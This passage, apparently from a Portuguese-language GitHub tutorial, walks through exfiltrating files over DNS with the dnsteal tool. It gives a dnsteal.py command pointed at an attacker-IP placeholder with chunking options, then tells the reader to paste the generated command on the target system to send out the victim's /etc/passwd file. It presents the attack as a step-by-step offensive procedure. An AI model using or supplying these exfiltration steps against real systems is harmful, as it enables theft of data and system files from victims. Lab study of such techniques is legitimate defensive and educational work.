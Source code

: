 ```zsh
python dnsteal.py [IP-DO-ATACANTE] -z -s 4 -b 57 -f 17
```

<p align="center">
  <img src="Imagens/3 emulação.png">
 <br>
  Figura : Comandos para Exfiltração em Vários Pacotes.
</p>

Agora, vamos adquirir o arquivo `passwd` do alvo. Como você pode ver na imagem abaixo, o tamanho do arquivo é `3306` bytes. Agora, basta copiar o primeiro comando e colá-lo na pasta `/etc` no sistema alvo. Novamente, antes de executar o comando, certifique-se de alterar o nome do arquivo para `passwd`.

<p align="center">
  <img src="Imagens/pasta etc 3 emulação.png">
 <br>
  Figura 8: Exfiltração do Arquivo PASSWD da Vítima.
</p>
